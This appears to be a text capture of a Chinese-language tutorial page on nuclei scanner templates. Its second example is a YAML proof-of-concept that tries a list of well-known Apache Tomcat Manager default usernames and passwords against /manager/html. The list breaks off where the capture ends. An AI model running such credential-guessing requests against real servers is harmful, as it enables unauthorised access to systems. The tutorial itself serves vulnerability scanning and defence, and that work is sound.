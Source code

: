 ```
        condition: and

      - type: status
        status:
          - 302
```

#### example 2 tomcat default login

这是nuclei的tomcat默认漏洞登录poc
```
id: tomcat-default-login

info:
  name: ApahceTomcat Manager Default Login
  author: pdteam
  severity: high
  description: Apache Tomcat Manager default login credentials were discovered. This template checks for multiple variations.
  reference:
    - https://www.rapid7.com/db/vulnerabilities/apache-tomcat-default-ovwebusr-password/
  tags: tomcat,apache,default-login

requests:
  - raw:
      - |
        GET /manager/html HTTP/1.1
        Host: {{Hostname}}
        Authorization: Basic {{base64(username + ':' + password)}}
    payloads:
      username:
        - tomcat
        - admin
        - ovwebusr
        - j2deployer
        - cxsdk
        - ADMIN
        - xampp
        - tomcat
        - QCC
        - admin
        - root
        - role1
        - role
        - tomcat
        - admin
        - role1
        - both
        - admin

      password:
        - tomcat
        - admin
        - OvW*busr1
        - j2deployer
        - kdsxc
        - ADMIN
        - xampp
        - s3cret
        - QLogic66
        - tomcat
        - root
        - role1
        - changethis
```